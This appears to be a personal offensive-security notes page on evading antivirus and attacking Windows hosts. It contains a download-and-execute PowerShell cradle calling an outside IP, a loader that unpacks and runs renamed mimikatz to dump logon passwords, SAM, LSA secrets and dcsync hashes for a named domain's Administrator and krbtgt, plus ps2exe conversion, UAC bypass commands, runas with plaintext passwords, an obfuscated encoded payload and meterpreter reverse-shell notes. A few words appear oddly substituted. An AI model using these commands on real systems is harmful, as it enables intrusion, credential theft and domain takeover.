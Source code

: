 # Aes encryption and Decryption of functions

```C#
shifted to aes_encryption.cs
```

# Shellcode loader for 

cn I load aes encypted shellcode from meterpreter into the thing

# trying to obfuscate powerview and mimikatz

https://www.cyberguider.com/bypassing-av-cat-vs-mouse/

Get-MpThreatDetection - this will list all the threats

pyobfuscation works with powerview

 https://github.com/CBHue/PyFuscation.

```
# python PyFuscation.py -fpv --ps powerup.ps1 
```

```
iex (New-Object Net.WebClient).DownloadString('http://10.10.6.12:8000/08012022_08_34_48.ps1');danger
```

a command to modify files in powershell
```
PS C:\> Get-Content D:\MultipleLineExamples.txt | Select -First 10 | Select -Last 1

get-content myfile.txt | select -first 1 -skip 9
```

# uncompressing mimikatz

```
Add-Type -AssemblyName System.IO.Compression.Filesystem
Add-Type -AssemblyName System.IO
$path = "Kitikat_2_2_1.zip"
$zipFile = Get-ChildItem $path -recurse -Filter "*.zip"
$rootArchive = [System.IO.Compression.zipfile]::OpenRead($zipFile.fullname)
$archivesLevel2 = New-object System.IO.Compression.ZipArchive ($rootArchive.Entries[0].Open())
$archivesLevel3 = New-object System.IO.Compression.ZipArchive ($archivesLevel2.Entries[0].Open())
$archivesLevel4 = New-object System.IO.Compression.ZipArchive ($archivesLevel3.Entries[0].Open())
$file =$archivesLevel4.Entries[0].Open()
$reader = New-Object IO.StreamReader($file)
$text = $reader.ReadToEnd()
iex $text
Hartford -Command '"privilege::debug" "sekurlsa::logonpasswords" "lsadump::sam" "lsadump::lsa /patch" "lsadump::dcsync"  "lsadump::dcsync /domain:ksew.com.pk /user:Administrator" "lsadump::dcsync /user:ksew.com.pk\krbtgt" "exit"' > take.txt
```



# converting powershell to exe

`Install-Module -Name ps2exe -RequiredVersion 1.0.10`
`Invoke-ps2exe .\unkitikat.ps1 .\bang.exe`




all done through sed

# fuzzy security

https://raw.githubusercontent.com/FuzzySecurity/PowerShell-Suite/master/Invoke-Runas.ps1

invokerunas giving error

```
C:\Users\m\Downloads>powershell "import-module .\invoke_runas.ps1;Invoke-runas"

cmdlet Invoke-Runas at command pipeline position 1
Supply values for the following parameters:
User: WIN10RED
Password: WinR3d@
Binary: C:\Windows\System32\cmd.exe 
LogonType: 0x1

[>] Calling Advapi32::CreateProcessWithLogonW

[+] Success, process details:

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
     18       4     1532       2252       0.02    400   1 cmd

```

can we pass with commands


-NoNewWindows start-process

can we again run the binary to get a new much more exploitable version of windows powershell?

This work :

```
C:\Users\m\Downloads>powershell "Start-Process C:\Windows\System32\cmd.exe -NoNewWindow"
Microsoft Windows [Version 10.0.19041.1415]
(c) Microsoft Corporation. All rights reserved.
```

```
$pass = convertTo-SecureString 'password@123' -AsPlainText -Force;$name="m";$cred = New-Object System.Management.Automation.PSCredential($name,$pass);Invoke-Command -Computer ARKHAM -ScriptBlock { whoami } -Credential $cred
```

UACbypass from here:

```
C:\Users\m\Downloads>powershell "import-module .\uace_bypass.ps1;Bypass-UAC -Method UacMethodSysprep"

[!] The current user is not part of the Administrator group!
```

otherway is to use https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1

we can also create a exe that runs all the commands

using runas 

# working runas command

runas /user:HP "powershell Start-Transcript -Path C:\Users\m\testlog.txt;import-module 'C:\Users\m\invokemimi.ps1';Stop-Transcript"

Bypass-UAC -Method UacMethodTcmsetup

# using invoke-obfuscation

https://blog.geoda-security.com/2018/05/running-obfuscated-version-of-mimikatz.html

`Import-Module .\Invoke-obfuscation.psd1; Invoke-Obfuscation`

set a scriptblock

```
set ScriptBlock "sensationalism -Command coffee"
```
ENCODING > 5 (AES) > 

```
 ( [rUnTime.interOPseRvicEs.mARShAL]::PtRtoStRinGbStr( [RUNTIMe.intEroPSeRVIcEs.marsHal]::sECUrEsTringToBStR( $('76492d1116743f0423413b16050a5345MgB8AGcAdQB6AHMAaQBWAGcAMgB6AGIAegB2AE4AcABuADQAVwBBAFYAcgBRAHcAPQA9AHwANgAzAGEANABmADMAOQA1ADEANwAzADEAYgA3AGUAZQBkAGEAMgBiADMANAA1AGMANwBhAGYAYwBlAGEANAAyADAAMwA0AGMAMAAxADcAMQBmAGIAMgBhADMANQBlADcAMAA5ADcAZgAyADkAZgA2AGIAZQA0AGQAYQAzADMAYwA0ADMANwA1AGUAMwA1AGUAZgA2AGIAOQA3AGUANQAyAGIAZgAzAGEANQA0AGYAZABkAGYAMQBmADEANwBkADEAMwA1AGIAMgA1ADgAMABmADQAYwBmADIAMgBkAGUAYQA2AGYAMwBlADkAMAAyADAAYgA2AGQAMgA1AGMAMgA0AA==' |CoNVErttO-SecurestrinG  -Ke 8,235,214,3,211,95,255,197,77,221,129,59,109,255,134,188)) ) ) | &((GV '*MDr*').NAME[3,11,2]-JoIn'')
```

# meterpreter shell commands

sending to background - background

when trying with windows/shell_reverse_tcp - we got the response as :

we can also try and use the normal meterpreter shell commands to execute stuuf

